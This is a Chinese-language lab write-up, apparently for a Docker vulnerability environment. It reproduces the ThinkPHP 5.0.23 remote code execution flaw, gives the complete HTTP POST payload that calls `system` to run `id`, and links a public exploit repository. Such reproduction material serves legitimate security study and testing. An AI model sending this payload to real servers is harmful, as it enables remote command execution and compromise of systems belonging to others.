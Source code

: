 # ThinkPHP5 5.0.23 远程代码执行漏洞

## 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

参考链接：

- https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003

## 环境搭建

执行如下命令启动一个默认的thinkphp 5.0.23环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可看到默认的ThinkPHP启动页面。

## 漏洞复现

发送数据包：

```
POST /index.php?s=captcha HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

成功执行`id`命令：

![image-20220302151553822](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021515902.png)

## 开源POC/EXP

- https://github.com/sukabuliet/ThinkphpRCE
